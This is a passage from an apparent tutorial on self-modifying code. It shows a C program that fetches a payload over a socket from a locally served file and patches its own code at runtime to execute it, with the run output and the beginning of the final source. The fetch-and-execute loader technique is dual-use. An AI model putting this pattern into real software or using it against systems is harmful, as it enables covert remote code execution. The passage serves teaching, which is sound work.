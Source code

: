 The demo is finally ready, let's setup a remote server in the same folder where `payload` file is located:
```sh
$ sudo php -S 127.0.0.1:1337 -t .
```

And finally compile and execute the completed code:
```sh
$ gcc demo.c
$ ./a.out
viruz
Trace/Breakpoint trap
```

The binary rewrote it's own code during runtime and instead of prompting the user for their name, the remote payload was executed.

**Final code:**
```c
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

#define FD_INVALID      -1
#define PAYLOAD_SIZE    31

typedef unsigned char byte;

int fetch_bytes(const char *destip, uint16_t destport, byte *outbuf, size_t bufsiz) {
    if (NULL == outbuf || 0 == bufsiz) {
        return EXIT_FAILURE;
    }

    int ret_code = EXIT_SUCCESS;
    char reply_buf[512] = { 0 };
    char *payload_ptr = NULL;
    const char request[] = "GET /payload\r\n\r\n";
    
    int sockfd = FD_INVALID;
    size_t recvlen = 0;
    struct sockaddr_in remote;

    sockfd = socket(AF_INET, SOCK_STREAM, 0);

    if (sockfd < 0) {
        return EXIT_FAILURE;
    }
    
    remote.sin_addr.s_addr = inet_addr(destip);
    remote.sin_family = AF_INET;
    remote.sin_port = htons(destport);

    if (connect(sockfd, (const struct sockaddr *) &remote, sizeof(remote)) < EXIT_SUCCESS) {
        ret_code = EXIT_FAILURE;
        goto _FINAL;
    } 
    
    if (sendto(sockfd, request, strlen(request), 0, NULL, 0) < EXIT_SUCCESS) {
        ret_code = EXIT_FAILURE;
        goto _FINAL;
    }

```